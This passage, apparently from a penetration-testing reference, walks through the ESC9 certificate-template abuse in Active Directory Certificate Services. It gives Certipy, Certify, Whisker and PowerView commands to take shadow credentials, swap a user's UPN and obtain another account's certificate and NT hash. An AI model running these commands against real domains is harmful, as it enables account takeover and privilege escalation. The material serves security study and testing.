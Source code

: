     In this scenario, user1 has `GenericWrite` against user2 and wants to compromise user3. user2 is allowed to enroll in a vulnerable template that specifies the `CT_FLAG_NO_SECURITY_EXTENSION` flag in the `msPKI-Enrollment-Flag` value.

    First, the user2's hash is needed. It can be retrieved via a Shadow Credentials attack, for example.
    ```bash
    certipy shadow auto -username "user1@$DOMAIN" -p "$PASSWORD" -account user2
    ```
    Then, the `userPrincipalName` of user2 is changed to user3.
    ```bash
    certipy account update -username "user1@$DOMAIN" -p "$PASSWORD" -user user2 -upn user3
    ```
    The vulnerable certificate can be requested as user2.
    ```bash
    certipy req -username "user2@$DOMAIN" -hashes "$NT_HASH" -target "$ADCS_HOST" -ca 'ca_name' -template 'vulnerable template'
    ```
    The user2's UPN is changed back to something else.
    ```bash
    certipy account update -username "user1@$DOMAIN" -p "$PASSWORD" -user user2 -upn "user2@$DOMAIN"
    ```
    Now, authenticating with the obtained certificate will provide the user3's NT hash during UnPac the hash. The domain must be specified since it is not present in the certificate.
    ```bash
    certipy auth -pfx 'user3.pfx' -domain "$DOMAIN"
    ```
=== "Windows"
    From Windows systems, the Certify (C#) tool can be used.
    ```bash
    # Find vulnerable/abusable certificate templates using default low-privileged group
    Certify.exe find

    # Find vulnerable/abusable certificate templates using all groups the current user context is a part of:
    Certify.exe find /currentuser
    ```
    Here, user1 has `GenericWrite` against user2 and want to compromise user3. user2 is allowed to enroll in a vulnerable template that specifies the `CT_FLAG_NO_SECURITY_EXTENSION` flag in the `msPKI-Enrollment-Flag` value.

    First, the user2's credentials are needed. It can be retrieved via a Shadow Credentials attack, for example. Here just the `msDs-KeyCredentialLink` modification part with Whisker:
    ```bash
    Whisker.exe add /target:"user2" /domain:"domain.local" /dc:"DOMAIN_CONTROLLER" /path:"cert.pfx" /password:"pfx-password"
    ```
    Then, the userPrincipalName of user2 is changed to user3 with PowerView.
    ```bash
    Set-DomainObject user2 -Set @{'userPrincipalName'='user3'} -Verbose
    ```
    The vulnerable certificate can be requested in a user2 session.
    ```bash
    Certify.exe request /ca:'domain\ca' /template:"Vulnerable template"
    ```
    The user2's UPN is changed back to something else.
    ```bash
    Set-DomainObject user2 -Set @{'userPrincipalName'='user2@dmain.local'} -Verbose
    ```